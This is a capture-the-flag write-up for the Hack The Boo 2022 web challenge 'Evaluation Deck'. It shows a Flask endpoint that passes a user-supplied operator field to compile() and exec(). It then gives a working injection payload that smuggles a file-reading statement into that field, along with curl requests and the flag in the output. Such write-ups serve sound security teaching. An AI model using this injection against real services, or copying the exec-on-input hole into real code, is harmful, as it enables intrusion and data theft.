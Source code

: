 # Hack The Boo 2022

## Evaluation Deck

> A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?
>
>  Author: N/A
>
> [`web_evaluation_deck.zip`](web_evaluation_deck.zip)

Tags: _web_

## Preparation
The website is basically a pretty simple card game, there's not too much to be found on the actual page so next up is inspection of what *web_evaluation_deck.zip* contains. Alongside docker remnants there is the actual code of the web app. Browsing the code leads to an interesting endpoint ```api/get_health```.

```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')

    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

The game code calls this endpoint for health calculation, but the interesting bit is in the ```compile``` and ```exec``` part at the end of the function. This looks like code execution could be possible here. 

## Crafting the Payload
To call this endpoint curl (or likewise) can be used. For the payload, it's clearly visible in the python code, but the frontend can also be used as reference. There's a short JavaScript snipped that shows what the endpoint expects:

```javascript
fetch('/api/get_health',{
      method:'POST',
      headers: {
         'Content-Type': 'application/json'
      },
      body: JSON.stringify({ 'current_health': health.toString(), 'attack_power': power, 'operator': operator })
   })
```

So basically a small *Json* containing three values:

```json
{
        "current_health":"100",
        "attack_power":"58",
        "operator":"-"
}
```

Calling the endpoint with this payload will generate the following code and leads the the expected result of *{"message": 42}*

```python
result = int(100) - int(58)
```

```
$ curl -X POST http://206.189.117.93:30093/api/get_health -H 'Content-Type: application/json' -d @payload.txt
{"message":42}
```

Another thing to note is that *flag.txt* is located at the root folder of the page. So what could be tried is to craft a payload that just reads the file and assignes the value to *result*. To achieve this the one line statement can be separated with ";" in python. The final result should look something like

```python
result = int(current_health); result = <read file here>; int(attack_power)
```

So the final payload looks like this

```json
{
        "current_health":"100",
        "attack_power":"42",
        "operator":"; result = open('../flag.txt').read(); "
}
```

Calling the endpoint again with this payload leads the flag

```
$ curl -X POST http://206.189.117.93:30093/api/get_health -H 'Content-Type: application/json' -d @payload.txt
{"message":"HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"}
```